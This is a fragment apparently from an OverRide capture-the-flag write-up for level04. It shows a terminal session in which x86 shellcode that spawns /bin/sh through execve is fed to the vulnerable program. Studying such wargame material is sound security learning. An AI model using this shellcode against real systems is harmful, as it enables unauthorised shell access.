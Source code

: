 

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
child is exiting...
```
































